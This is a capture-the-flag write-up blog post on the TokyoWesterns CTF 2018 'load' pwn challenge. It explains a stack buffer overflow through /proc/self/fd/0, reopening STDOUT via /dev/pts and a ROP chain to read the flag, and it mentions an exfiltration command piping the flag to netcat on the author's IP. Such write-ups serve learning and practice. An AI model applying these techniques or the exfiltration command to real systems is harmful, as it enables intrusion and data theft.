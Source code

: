 ```yaml
---
layout: post
title: "TokyoWesterns CTF 2018 - load (pwn)"
description: ""
date: 2018-09-03
tags: [ctf, pwn]
comments: true
---
```


> host : pwn1.chal.ctf.westerns.tokyo

> port : 34835 (Solves: 49, 208 pts)

> [load][load] [+exploit.py][exploit]

This challenge runs a binary that is a **Load file Service**, which allows you to read any file on the system, which it will open and write the file contents to a buffer on the stack. The `filename` that we enter is limited to 128-bytes and is placed in a variable in the bss section, we should take note of that. From this description, it is quite obvious that we are going for a stack-based buffer overflow which will allow us to control the saved RIP on the stack, as long as the file read is larger than the buffer size, it will overflow. 

## Controlling RIP

This brings the question of what file to read, since we do not control any files on the challenge server, and even though we could overflow it by reading some arbitrary big file in the system, if we do not control its contents, we are unable to significantly control execution flow of the program to get a flag. The solution is to read a file we CAN control, `/proc/self/fd/0`. This file is a symbolic link created for each process which allows us to read data from the terminal, fd 0 refers to STDIN while fd 1 would be STDOUT, thus if we read from fd 0, we can send a ROP chain to overflow the buffer.

```
Load file Service
Input file name: /proc/self/fd/0
Input offset: 0
Input size: 100
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Load file complete!
Segmentation fault (core dumped) <= YAY
```


## No Leaks?

So now that we are able to control execution flow, I notice the next issue. Right before main returns, there is a call to `close_fd()`, which closes the file descriptors for STDIN, STDOUT and STDERR. What this means is that we will no longer be able to read data from the user or print data to the screen.

{% highlight C %}
int close_fd()
{
  close(0);
  close(1);
  close(2);
  return;
}
{% endhighlight %}

This is an issue as generally, we assume that 99% of CTF pwn challenges have ASLR enabled, thus the libc will be mapped to a random address space for each execution of the binary. This either forces us to leak the libc address so we can call functions that are not in the PLT (PLT functions have a static addresses) or only use functions present in the PLT. The PLT actually contains `open`, `read`, and `puts`, so we actually do not need to leak the libc base address to read the flag, however we still need STDOUT to be open to see the flag on our side. So I thought of two solutions.

1) If we can find the appropriate gadgets, maybe we could run `execve` with syscalls and run a command like `cat flag | nc [myip] 1337` which would give us the flag. But I was unable to find any syscall gadgets, and ths would be a very difficult operation to do with only syscalls

2) Find some way to reopen STDOUT

I settled with the second way as it's probably easier.

## Reopening STDOUT

After a file descriptor is closed, the file descriptor will be "free'd" and the next call to the `open` syscall would return the lowest free file descriptor possible. Since `close_fd()` closed file descriptors `0, 1, 2`, our next three calls to `open` would return these file descriptors. If you run `strace` on a program calling `puts`, you will notice that a puts call for example `puts("Load file complete!")` is actually just `write(1, "Load file complete!", 19)     = 19`. This is useful as now we know that the second file we open to will be written to by the puts call. If we can somehow read from that file from our remote connection, we can see the flag. After knowing this I did some googling and tried random files like `/dev/tty` after seeing shellcodes like [this][shellcode], but tty didn't work, I think it's because we aren't in a terminal. Trying to call open on `/proc/self/fd/1` wouldn't work as after the fd is closed, so is the file. After messing around, I realised that `/proc/self/fd/1` is just a symlink to another file `/dev/pty/?`. I tried opening the correct `/dev/pty/?` twice so that fd 1 == `/dev/pty/?` with a simple puts ROP chain and it worked!

## Finishing up

Now that we know we can leak, we just have to write a simple ROP chain to open the flag file and read it back to ourselves. The ROP chain I used did the following `open("/dev/pts/?") * 2 => open("/home/load/flag.txt") => read(3(flag), 0x601000(random bss addr), 10000)`, using our `filename` buffer in the bss to store filenames for the three files, since it has a static address. And we get the flag! Just a note, `/dev/pty/?` has question mark as it seems that the pty our connection uses keeps changing, but changing it randomly between 0-3 seemed to work reliably enough for my purposes. Also, there weren't easy gadgets for a `pop rdx` instruction for the third argument in the `read` call, so I had to use `csu_init` which helps to set my rdx register.

`TWCTF{pr0cf5_15_h1ghly_fl3x1bl3}`

[load]:{{site.baseurl}}/ctf/TokyoWesterns18/load/load
[exploit]:{{site.baseurl}}/ctf/TokyoWesterns18/load/exploit.py
[shellcode]: http://shell-storm.org/shellcode/files/shellcode-219.php